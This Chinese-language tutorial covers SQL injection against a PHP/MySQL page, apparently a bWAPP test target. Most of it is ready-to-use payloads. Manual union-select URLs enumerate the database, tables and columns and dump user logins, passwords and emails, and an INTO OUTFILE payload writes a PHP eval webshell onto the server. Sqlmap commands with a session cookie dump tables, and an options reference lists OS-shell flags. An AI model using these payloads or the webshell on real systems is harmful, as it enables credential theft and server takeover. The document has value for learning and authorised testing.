 ```yaml
---
title: PHP手工注入以及通过SqlMap自动注入基本语法
tags: [PHP,SqlMap,MySQL,SQL注入]
---
```


### 0x00: 手工注入
#### 判断是否存在注入
``` bash
http://test.com/detail.php?movie=1 and 1=1 页面正常
```
``` bash
http://test.com/detail.php?movie=1 and 1=2 页面异常
```
#### 暴露基本信息
``` bash
http://test.com/detail.php?movie=1 order by 8 错误
```
>Tips: [ORDER BY {col_name | expr | position} [ASC | DESC], …],这里传入的是position排序，根据某个potion排序，当超过表字段数量时就会报错。

``` bash
http://test.com/detail.php?movie=1 and 1=2 union select 1,2,3,4,5,6,7
```
>Tips：http://test.com/detail.php?movie=1 and 1=2返回空，最后返回union select 1,2,3,4,5,6,7一条记录

#### 查看目标基本信息
``` bash
http://test.com/detail.php?movie=1 and 1=2 union select 1,group_concat(database(),0x20,user(),0x20,@@version,0x20,@@basedir,0x20,@@datadir,0x20,current_user),3,4,5,6,7
```
>Tips：0x20作为单字节表示，可以用于字符型变量的赋值，用于char时，其代表ascii码值0x20，即字符空格’ ‘，这里用于区分database()等字段回显信息。

#### 获取当前数据库所有表
``` bash
http://test.com/detail.php?movie=1 and 1=2 union select 1,group_concat(TABLE_NAME),3,4,5,6,7 from information_schema.tables where table_schema=database()
```
>Tips：MySQL所有数据库表都会存储于information_schema库中的tables表中。table_schema为数据库名称，TABLE_NAME为对应数据库表名称。
``` bash
-- 查看数据库所有表
select TABLE_NAME from information_schema.tables
```
#### 获取对应表的所有列
``` bash
http://test.com/detail.php?movie=1 and 1=2 union select 1,2,3,group_concat(column_name),5,6,7 from information_schema.columns where table_schema=database() and table_name="users"
```
> Tips：MySQL所有数据库列都会存储于information_schemacolumnstable_schema为数据库名称，table_name为对应数据库表名称。
``` bash
-- 查看数据库所有列
select column_name from information_schema.columns
```

#### 获取对应列数据
``` bash
http://test.com/detail.php?movie=1 and 1=2 union select 1,group_concat(id,login,password,email),3,4,5,6,7 from users
```

#### 写入poc脚本文件
``` bash
http://test.com/detail.php?movie=1 and 1=2 union select 0x20,0x20,0x20,0x20,0x20,0x20,"<?php @eval($_POST[cmd]); ?>" into outfile "/poc.php"
```
>Tips: into outfile通过SQL命令向服务器对应路径写入文件内容，通常用来写入webshell到Web服务目录。

### 0x02：SqlMap自动注入

#### 是否存在注入
``` bash
sqlmap -u http://test.com/detail.php?movie=1
```

#### 获取数据库
``` bash
sqlmap -u http://test.com/detail.php?movie=1 --cookie="security_level=0; PHPSESSID=uovrdlujopr4jbd44p4afjavv2" --current-db
```

#### 获取数据库表
``` bash
sqlmap -u http://test.com/detail.php?movie=1 --cookie="security_level=0; PHPSESSID=uovrdlujopr4jbd44p4afjavv2" -D bwapp --tables
```

#### 获取数据库表列
``` bash
sqlmap -u http://test.com/detail.php?movie=1 --cookie="security_level=0; PHPSESSID=uovrdlujopr4jbd44p4afjavv2" -T users --columns
```

#### 获取数据库表数据
``` bash
sqlmap -u http://test.com/detail.php?movie=1 --cookie="security_level=0; PHPSESSID=uovrdlujopr4jbd44p4afjavv2" -T users --columns --dump
```

### SqlMap参数参考
```
Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

Target:
  At least one of these options has to be provided to define the
  target(s)

  -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
  -g GOOGLEDORK       Process Google dork results as target URLs

Request:
  These options can be used to specify how to connect to the target URL

  --data=DATA         Data string to be sent through POST (e.g. "id=1")
  --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
  --random-agent      Use randomly selected HTTP User-Agent header value
  --proxy=PROXY       Use a proxy to connect to the target URL
  --tor               Use Tor anonymity network
  --check-tor         Check to see if Tor is used properly

Injection:
  These options can be used to specify which parameters to test for,
  provide custom injection payloads and optional tampering scripts

  -p TESTPARAMETER    Testable parameter(s)
  --dbms=DBMS         Force back-end DBMS to provided value

Detection:
  These options can be used to customize the detection phase

  --level=LEVEL       Level of tests to perform (1-5, default 1)
  --risk=RISK         Risk of tests to perform (1-3, default 1)

Techniques:
  These options can be used to tweak testing of specific SQL injection
  techniques

  --technique=TECH..  SQL injection techniques to use (default "BEUSTQ")

Enumeration:
  These options can be used to enumerate the back-end database
  management system information, structure and data contained in the
  tables. Moreover you can run your own SQL statements

  -a, --all           Retrieve everything
  -b, --banner        Retrieve DBMS banner
  --current-user      Retrieve DBMS current user
  --current-db        Retrieve DBMS current database
  --passwords         Enumerate DBMS users password hashes
  --tables            Enumerate DBMS database tables
  --columns           Enumerate DBMS database table columns
  --schema            Enumerate DBMS schema
  --dump              Dump DBMS database table entries
  --dump-all          Dump all DBMS databases tables entries
  -D DB               DBMS database to enumerate
  -T TBL              DBMS database table(s) to enumerate
  -C COL              DBMS database table column(s) to enumerate

Operating system access:
  These options can be used to access the back-end database management
  system underlying operating system

  --os-shell          Prompt for an interactive operating system shell
  --os-pwn            Prompt for an OOB shell, Meterpreter or VNC

General:
  These options can be used to set some general working parameters

  --batch             Never ask for user input, use the default behavior
  --flush-session     Flush session files for current target

Miscellaneous:
  --sqlmap-shell      Prompt for an interactive sqlmap shell
  --wizard            Simple wizard interface for beginner users
```
